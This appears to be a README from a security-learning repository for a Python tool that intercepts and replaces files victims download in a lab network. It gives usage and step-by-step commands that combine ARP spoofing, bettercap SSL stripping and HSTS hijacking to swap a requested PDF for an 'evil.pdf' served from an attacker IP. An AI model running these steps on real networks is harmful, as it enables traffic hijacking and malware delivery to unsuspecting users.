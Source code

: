 # File interceptor

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules

## Usage

```shell
usage: file_interceptor.py [-h] [-e EXTENSION] [-d DESTINATION] [-u URL]

File replacement tool (use Bettercap hstshijack/hstshijack for sslstripping)

optional arguments:
  -h, --help            show this help message and exit
  -e EXTENSION, --extension EXTENSION
                        File extension
  -d DESTINATION, --destination DESTINATION
                        sslstrip, forward, or local
  -u URL, --url URL     Replacement url

Example: 
            file_interceptor.py # replace a .pdf with an evil.pdf file in location apache2 server on kali, sslstrip
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf            # replace a .pdf file
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf -d local   # test replacing a .pdf file
                                                                                                                      
```

## Kicking the tyres

* Choose what type of file to replace, and make sure you have a replacement file in `/var/www/html/evil/`
* Run the [arp_spoofer.py script](/arp_spoofer)

```shell
    @kali:~$ sudo python3 arp_spoofer.py
    [sudo] password for <user>: 
    [+] Setting forward
    [+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
    @kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `file_interceptor.py` script. Defaults are set to replace a .pdf with an evil.pdf file in the `/var/www/html/evil/` location of the Kali `apache2` server on the Kali VM, and using `sslstrip`.

```shell
    @kali:~$ sudo python3 file_interceptor.py 
```
And test file is replaced on Windows machine. Clear cache and history of browser first!

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)